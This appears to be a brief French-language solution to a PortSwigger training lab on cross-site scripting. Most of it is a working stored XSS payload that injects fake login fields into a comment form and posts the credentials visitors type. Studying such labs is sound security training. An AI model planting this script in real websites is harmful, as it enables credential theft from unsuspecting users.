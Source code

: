 # Lab

https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

## Payload

Dans le commentaire, mettre ce script :

```html
<script>
    window.addEventListener('load', function () {

        const form = document.querySelector('form');

        const usernameInput = document.createElement('input');
        usernameInput.setAttribute('type', 'text');
        usernameInput.setAttribute('name', 'username');
        usernameInput.setAttribute('required', '');

        const passwordInput = document.createElement('input');
        passwordInput.setAttribute('type', 'password');
        passwordInput.setAttribute('name', 'password');
        passwordInput.setAttribute('required', '');

        form.insertBefore(usernameInput, form.firstChild);
        form.insertBefore(passwordInput, form.firstChild);

        setTimeout(() => {
            document.querySelector('textarea[name="comment"]').value = document.querySelector('input[name="username"]').value + " : " + document.querySelector('input[name="password"]').value;
            document.querySelector('input[name="name"]').value = "XSSed";
            document.querySelector('input[name="email"]').value = "XSSed@xss.xss";

            form.submit();
        }, 10000);
    });
</script>
```

## Explication

Le script va créer un formulaire avec un champ `username` et un champ `password` et va les insérer dans le formulaire du site.

Il va ensuite attendre 10 secondes et va remplir les champs puis soumettre le formulaire.